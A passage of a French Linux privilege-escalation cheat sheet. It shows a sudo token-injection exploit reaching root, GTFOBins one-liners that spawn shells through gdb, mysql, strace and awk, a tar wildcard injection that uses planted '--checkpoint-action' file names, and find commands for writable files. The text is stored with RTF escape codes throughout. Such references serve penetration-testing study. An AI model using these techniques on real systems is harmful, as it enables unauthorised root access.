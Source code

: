 ```powershell\
```powershell\
$ sudo whatever\
[sudo] password for user:    \
# Pressez <ctrl>+c puisque vous n\'92avez pas le mot de passe. \
# Cela cr\'e9e un token sudo invalide.\
$ sh exploit.sh\
.... wait 1 seconds\
$ sudo -i # pas de mot de passe requis :)\
# id\
uid=0(root) gid=0(root) groups=0(root)\
```\
\
Diapos de pr\'e9sentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)\
\
## GTFOBins\
\
[GTFOBins](https://gtfobins.github.io) est une liste de conservation des binaires Unix qui peut \uc0\u234 tre utilis\'e9 par un attaquant pour contourner les restrictions de s\'e9curit\'e9 locales.\
\
Le projet collecte les fonctions l\'e9gitimes des binaires d\'92Unix dont on peut se servir pour sortir d\'92un shell restreint, pour escalader ou maintenir des privil\uc0\u232 ges \'e9lev\'e9s, transf\'e9rer des fichiers, faire spawn des bine et des reverse shells, et faciliter d\'92autres t\'e2ches de post-exploitation.\
\
> gdb -nx -ex '!sh' -ex quit    \
> sudo mysql -e '\\! /bin/sh'    \
> strace -o /dev/null /bin/sh    \
> sudo awk 'BEGIN \{system("/bin/sh")\}'\
\
\
## Wildcard\
\
en utilisant tar avec l\'92option \'96checkpoint-action, un action sp\'e9cifique peut \uc0\u234 tre ex\'e9cut\'e9e apr\u232 s un checkpoint. Cette action pourrait \u234 tre un script malicieux utilis\'e9 pour ex\'e9cuter des commandes sous l\'92utilisateur qui d\'e9marre tar. \'93Pi\'e9ger\'94 root pour utiliser cette option sp\'e9cifique est plut\'f4t simple, et c\'92est ici que les wildcard deviennent int\'e9ressantes.\
\
```powershell\
# Cr\'e9er un fichier pour l\'92exploitation\
touch -- "--checkpoint=1"\
touch -- "--checkpoint-action=exec=sh shell.sh"\
echo "#\\!/bin/bash\\ncat /etc/passwd > /tmp/flag\\nchmod 777 /tmp/flag" > shell.sh\
\
# Script vuln\'e9rable\
tar cf archive.tar *\
```\
\
Outil: [wildpwn](https://github.com/localh0t/wildpwn)\
\
## Fichiers avec les droits en \'e9criture\
\
Lister tous les fichiers avec les droits en \'e9criture sur le syst\uc0\u232 me.\
\
```powershell\
find / -writable ! -user \\`whoami\\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al \{\} \\; 2>/dev/null\
find / -perm -2 -type f 2>/dev/null\
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null\
```\
\
### /etc/passwd avec les permissions en \'e9criture\
\
```